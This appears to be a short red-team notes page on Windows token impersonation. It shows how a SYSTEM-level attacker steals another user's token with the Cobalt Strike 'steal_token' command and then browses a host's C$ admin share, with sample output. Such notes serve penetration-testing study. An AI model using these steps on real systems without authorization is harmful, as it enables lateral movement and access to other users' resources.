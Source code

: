 # Token Impersonation&#x20;

## Token Impersonation

If we elevate or pop a SYSTEM where a user is running a process, we can impersonate it's token.

For example:

```
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 4433  998  mmc.exe                                x64   0           DEV\robert
```

If we are SYSTEM, we can steal robert's token and impersonate them.&#x20;

<mark style="color:red;">**Note**</mark>: If the user closes the process, our ability to impersonate goes with it. We must take additional steps of extracting tickets or hashes after stealing the token.

## Cobalt Strike - steal\_token

```powershell
beacon> steal_token 4433

beacon> ls \\internal-website.rotta.dev\c$
[*] Listing: \\internal-website.rotta.dev\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2024 11:30:11   $Recycle.Bin
          dir     08/10/2024 11:45:28   $WinREAgent
```


